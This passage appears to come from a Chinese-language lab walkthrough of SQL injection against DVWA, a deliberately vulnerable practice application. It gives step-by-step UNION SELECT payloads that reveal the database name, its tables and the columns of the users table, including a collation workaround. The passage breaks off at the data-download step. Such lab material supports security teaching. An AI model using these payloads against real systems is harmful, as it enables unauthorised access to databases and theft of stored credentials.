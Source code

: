 输入 1' union select 1,2 #

![image-20221113153425072.png](https://img.ghostliner.top/nJb45a.png)

说明执行的 SQL 语句为 select First name,Surname from 表 where ID='id'…

**4.获取当前数据库**

```sql
'
1' union select 1,database() #
```

可得数据库名为`dvwa`

**5.获取数据库中的表**

```sql
'
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #
```

若报错：Illegal mix of collations for operation 'UNION' 改为

```sql
'
1' union select 1,group_concat(table_name) COLLATE utf8_general_ci from information_schema.tables where table_schema=database() #
```

![image-20221113154139644.png](https://img.ghostliner.top/gaHnv1.png)

可得表有`guestbook` `users`

**6.获取表中的字段名**

```sql
'
1' union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users' #
```

**Illegal mix of collations for operation 'UNION'**

```sql
'
1' union select 1,group_concat(column_name) COLLATE utf8_general_ci from information_schema.columns where table_schema=database() and table_name='users' #
```

![image-20221113155210293.png](https://img.ghostliner.top/lx5i3l.png)

```
user_id,first_name,last_name,user,password,avatar,last_login,failed_login,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS
```

**7.下载数据**
